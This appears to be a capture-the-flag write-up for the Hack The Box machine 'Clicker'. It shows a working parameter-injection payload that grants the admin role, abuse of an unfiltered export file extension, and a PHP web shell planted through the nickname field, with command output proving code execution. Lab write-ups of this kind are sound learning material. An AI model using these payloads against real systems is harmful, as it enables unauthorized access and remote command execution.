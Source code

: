 From the code above, if we examine it line by line, it appears to be a loop that iterates through key-value pairs.

So, I decide to write this statement in a PHP online editor like this, and I think if I can’t send a role into this function, how can I gain access from this?

I noticed that (strtolower($key) === 'role') is checked, and the result is sent to the save_profile function in db_utils.php, which is an SQL update statement. It turns out that sending 'role/**/=Admin' allows me to bypass a certain condition.

After understanding the code, I were able to become an admin by sending Payload: GET /save_game.php?clicks=4&level=0&role/**/=Admin

Logging out and logging in again, I noticed that the administrator tab appeared on the website.

I check on the administrator tab and found an export button on the admin page that allowed me to export files with different file extensions.
After clicking export, I received a URL, and I chose it to be a .txt file, which then displayed as a text file on website.

I went back to review the code once again and discovered that the export.php file didn’t have any filters in place. This means if I input php as the file extension, it should execute as PHP code for me.
When I check the request with Burpsuite, it became apparent that I could change the file extension to php.

Data has been saved in exports/top_players_9gxk6mls.php. Going to http://clicker.htb/exports/top_players_9gxk6mls.php:

```text
Nickname 	Clicks 	Level
qwer 	9 	1
admin 	999999999999999999 	999999999
ButtonLover99 	10000000 	100
Paol 	2776354 	75
Th3Br0 	87947322 	1
```

After trying the extension change, I confirmed that it indeed executed as PHP. Now, the challenge is to find a way to execute this PHP page to create a reverse shell.

So, I got back to reading export.php again, and I found that if I send PHP as value of nickname parameter on save_game.php, it’ll show on the export page, and if I send PHP backdoor as the value of the nickname parameter, that means I can run a shell command on the web page.

Save game and add:
```php
&nickname=<?php+system($_GET['cmd']);?>
```

After setting nickname as the parameter and PHP shell as its value, I attempted to export the file with a .php extension. In this case, when I opened it with the cmd=id parameter

Data has been saved in exports/top_players_a3pitdu4.php. Going to: http://clicker.htb/exports/top_players_a3pitdu4.php?cmd=id

```text
Nickname 	Clicks 	Level
uid=33(www-data) gid=33(www-data) groups=33(www-data) 	714 	2
admin 	999999999999999999 	999999999
ButtonLover99 	10000000 	100
Paol 	2776354 	75
Th3Br0 	87947322 	1
```
